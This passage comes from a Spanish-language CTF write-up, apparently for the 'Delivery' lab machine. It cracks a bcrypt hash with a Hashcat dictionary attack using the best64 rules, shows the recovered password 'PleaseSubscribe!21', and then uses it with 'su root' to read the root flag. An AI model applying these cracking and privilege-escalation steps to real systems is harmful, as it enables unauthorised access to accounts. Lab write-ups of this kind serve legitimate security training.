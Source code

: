 Ahora solo es necesario guardar el **hash** y la posible **contraseña** en un archivo, y definir qué conjunto de **variantes** vamos a aplicar para lograr **crackear** el hash.

>Las **reglas** en **Hashcat** son conjuntos de instrucciones que modifican las **contraseñas** generadas durante un **ataque de diccionario** o **fuerza bruta**. Estas reglas permiten aplicar transformaciones como añadir **números**, cambiar **mayúsculas**, añadir **caracteres especiales**, etc., para crear variaciones de las contraseñas y mejorar la cobertura del ataque. Utilizar reglas eficaces puede incrementar significativamente la posibilidad de encontrar contraseñas correctas.
{: .prompt-info}

```bash
cat hash.txt

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

```bash
cat posiblePass.txt

PleaseSubscribe!
```

```bash
hashcat -a 0 -m 3200 ./h4sh.txt ./posiblePass.txt -r /usr/share/hashcat/rules/best64.rule

$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Thu Aug 15 00:32:40 2024 (7 secs)
Time.Estimated...: Thu Aug 15 00:32:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./posiblePass.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        3 H/s (1.09ms) @ Accel:4 Loops:8 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 21/77 (27.27%)
Rejected.........: 0/21 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
Hardware.Mon.#1..: Util: 23%
```

Ahora que contamos con esta **credencial**, podemos intentar autenticarnos dentro de la máquina como el usuario **root**, con lo que obtendremos máximos privilegios sobre la misma.

```go
maildeliverer@Delivery:/opt/mattermost/config$ su root
Password: PleaseSubscribe!21
root@Delivery:/opt/mattermost/config# cd /root/
root@Delivery:~# cat root.txt 
a14bfb462f2abad866adc18f978fec08
root@Delivery:~# 
```

